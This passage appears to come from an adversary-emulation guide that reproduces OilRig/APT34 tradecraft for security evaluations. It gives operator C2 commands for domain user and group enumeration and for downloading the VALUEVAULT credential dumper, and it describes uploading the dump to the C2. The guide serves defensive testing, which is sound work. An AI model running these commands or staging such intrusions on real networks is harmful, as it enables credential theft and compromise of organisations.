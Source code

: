 Perform follow up discovery using gained information to determine gosta is a 
member of EWS Administrators, tous is a SQL administrator and the IP of 
WATERFALLS.

```bash
# OilRig has been observed to perform enumeration of users and groups.[3]

./evalsC2client.py --set-task goTb '101 net user gosta /domain 2>&1 & net group "SQL Admins" /domain 2>&1 & nslookup WATERFALLS 2>&1'
```

<br>

### :moyai: Source Code
*  SideTwist instruction parsing: [SideTwist.cpp#L65-L79](../Resources/SideTwist/SideTwist/SideTwist.cpp#L65-L79/)
*  SideTwist command execution: [SideTwist.cpp#L102-L114](../Resources/SideTwist/SideTwist/SideTwist.cpp#L102-L114/)

<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/  
*  Helminth campaigns/enumeration: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/
*  EWS admin/Exchange Trusted Subsystem discovery: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 3 - Workstation Low Privilege Credential Dumping

### :microphone: Voice Track

Step 3 emulates OilRig using `SystemFailureReporter.exe` to download VALUEVAULT
(the executable for which is `b.exe`) which is then leveraged to perform a low 
privilege credential dumping. `SystemFailureReporter.exe` then uploads the 
VALUEVAULT dump (named `fsociety.dat`) back to C2 via HTTP POST request. 

The output of the credential dump provides a plaintext password for the current 
user `gosta`.

---

### :biohazard: Procedures

:arrow_right: On Linux Attack Platform  as `saka`, issue the command to download VALUEVAULT
to the workstation

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```
